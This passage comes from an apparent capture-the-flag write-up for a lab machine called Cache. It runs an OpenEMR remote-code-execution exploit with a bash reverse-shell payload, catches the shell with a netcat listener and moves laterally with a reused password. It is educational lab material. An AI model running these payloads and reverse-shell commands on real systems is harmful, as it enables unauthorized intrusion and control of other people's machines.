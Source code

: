 ```md
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Save the exploit and rename it *openemr_rce.py*. Now, start a listener (*rlwrap nc -nlvp 4444*) and run the exploit:
```md
kali@kali:/data/Cache/files$ python openemr_rce.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.142/4444 0>&1'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
```
A reverse shell is now available in the listener:
```md
kali@kali:/data/Cache/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.142] from (UNKNOWN) [10.10.10.188] 47376
bash: cannot set terminal process group (1617): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
---
## Lateral move (www-data->ash)
We already gathered ash’s password previously, let’s switch to ash.
```md
www-data@cache:/var/www/hms.htb/public_html$ python3 -c "import pty;pty.spawn('/bin/bash')"
<tml$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@cache:/var/www/hms.htb/public_html$ su ash
su ash
Password: H@v3_fun

ash@cache:/var/www/hms.htb/public_html$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash)
```
---
## User flag
We can now get the user flag
```md
ash@cache:/var/www/hms.htb/public_html$ cat /home/ash/user.txt
cat /home/ash/user.txt
```
---
## Root flag
### Memcached